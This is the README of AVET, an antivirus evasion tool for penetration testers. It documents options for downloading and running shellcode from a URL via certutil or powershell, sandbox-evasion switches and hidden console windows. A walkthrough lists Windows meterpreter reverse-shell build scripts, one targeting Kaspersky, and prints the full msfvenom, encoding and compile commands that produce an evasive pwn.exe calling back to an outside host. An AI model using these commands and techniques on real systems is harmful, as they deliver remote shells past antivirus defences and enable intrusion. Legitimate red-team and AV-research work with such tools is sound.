 AntiVirus Evasion Tool
======================

Please note that this project has PoC status!
---------------------------------------------

Blog: https://danielsauder.com/2019/03/21/antivirus-evasion-on-osx/

AVET is an AntiVirus Evasion Tool, which was developed for making life easier for pentesters and for experimenting with antivirus evasion techniques, this version is for OSX.

For basics about antivirus evasion, AVET & more information have a look here: 
- https://govolution.wordpress.com/2018/08/07/paper-avet-blackhat-usa-arsenal-2018/
- https://govolution.wordpress.com/2017/06/11/avet-video/
- https://govolutionde.files.wordpress.com/2014/05/avevasion_pentestmag.pdf
- https://deepsec.net/docs/Slides/2014/Why_Antivirus_Fails_-_Daniel_Sauder.pdf
- https://twitter.com/DanielX4v3r

What & Why:
- when running an exe file made with msfpayload & co, the exe file will often be recognized by the antivirus software
- avet is a antivirus evasion tool targeting windows machines with executable files
- assembly shellcodes can be used
- make_avet can be used for configuring the sourcecode
- with make_avet you can load ASCII encoded shellcodes from a textfile or from a webserver, further it is using an av evasion technique to avoid sandboxing and emulation
- call msf ASCII encoded shellcode as a parameter from cmd
- for ASCII encoding the shellcode the tool format.sh and sh_format are included

Installation
- this version was developed for running on OSX with metasploit and gcc installed
- install python3
	https://www.python.org/downloads/mac-osx/
- install gnureadline
	pip3 install gnureadline

Important Note
--------------
Not all techniques will evade every AV engine. If one technique or build script does not work please test another one.

How to use make_avet and build scripts
--------------------------------------
Compile if needed, for example if you use a 32 bit system:
```
$ gcc -o make_avet make_avet.c
```

The purpose of make_avet is to preconfigure a definition file (defs.h) so that the source code can be compiled in the next step. This way the payload will be encoded as ASCII payload or with encoders from metasploit. You hardly can beat shikata-ga-nai.

Let's have a look at the options from make_avet, examples will be given below:
```
-l load and exec shellcode from given file, call is with mytrojan.exe myshellcode.bin
   when called with -E call with mytrojan.exe shellcode.txt
-f compile shellcode into .exe, needs filename of shellcode file
-u load and exec shellcode from url using internet explorer (url is compiled into executable)
-d download the shellcode file using different techniques
   -d sock -> for downloading a raw shellcode via http in memory and exec (no overhead, use socket)
      usage example: pwn.exe http://yourserver/yourpayload.bin
   -d certutil -> use certutil.exe for downloading the file
   -d powershell -> use powershell for downloading the file
      usage of -d certutil/powershell in combination with -f
      for executing the raw shellcode after downloading
      call: pwn thepayload.bin http://server/thepayload.bin
-E use avets ASCII encryption, often do not has to be used
   Can be used with -l
-F use fopen sandbox evasion
-k "killswitch" sandbox evasion with gethostbyname
-X compile for 64 bit
-p print debug information
-q quiet mode (hide console window)
-h help
```

Of course it is possible to run all commands step by step from command line. But it is strongly recommended to use build scripts or the avet_fabric.py.

The build scripts themselves are written so as they have to be called from within the avet directory:
```
root@kalidan:~/tools/avet# ./build/build_win32_meterpreter_rev_https_20xshikata.sh
```

Examples
--------
Here are the commented examples for building the .exe files from the build directory. 

```

```

avet_fabric.py
--------------
avet_fabric is an assistant, that loads all build scripts in the build directory (name has to be build*.sh) and then lets the user edit the settings line by line. This is under huge development.

Example:
```
# python3 avet_fabric.py 

                       .|        ,       +
             *         | |      ((             *
                       |'|       `    ._____
         +     ___    |  |   *        |.   |' .---"|
       _    .-'   '-. |  |     .--'|  ||   | _|    |
    .-'|  _.|  |    ||   '-__  |   |  |    ||      |
    |' | |.    |    ||       | |   |  |    ||      |
 ___|  '-'     '    ""       '-'   '-.'    '`      |____
jgs~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

AVET Fabric by Daniel Sauder

avet_fabric.py is an assistant for building exe files with shellcode payloads for targeted attacks and antivirus evasion.

0: build_win32_meterpreter_rev_https_shikata_loadfile.sh
1: build_win32_meterpreter_rev_https_shikata_fopen.sh
2: build_win32_meterpreter_rev_https_shikata_load_ie_debug.sh
3: build_win32_shell_rev_tcp_shikata_fopen_kaspersky.sh
4: build_win32_meterpreter_rev_https_20xshikata.sh
5: build_win32_meterpreter_rev_https_shikata_load_ie.sh
6: build_win64_meterpreter_rev_tcp.sh
...
Input number of the script you want use and hit enter: 6

Now you can edit the build script line by line.

simple example script for building the .exe file
$ . build/global_win64.sh
make meterpreter reverse payload
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.132 lport=443 -f c --platform Windows > sc.txt
format the shellcode for make_avet
$ ./format.sh sc.txt > scclean.txt && rm sc.txt
call make_avet, compile
$ ./make_avet -f scclean.txt -X -E
$ $win64_compiler -o pwn.exe avet.c
cleanup
$ rm scclean.txt && echo "" > defs.h

The following commands will be executed:
#/bin/bash
. build/global_win64.sh
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.132 lport=443 -f c --platform Windows > sc.txt
./format.sh sc.txt > scclean.txt && rm sc.txt
./make_avet -f scclean.txt -X -E
$win64_compiler -o pwn.exe avet.c
rm scclean.txt && echo "" > defs.h

Press enter to continue.

Building the output file...

Please stand by...

The output file should be placed in the current directory.

Bye...
```


Comparison of Antivirus Evasion tools:
http://dione.lib.unipi.gr/xmlui/bitstream/handle/unipi/11232/Kalogranis_mte1512.pdf
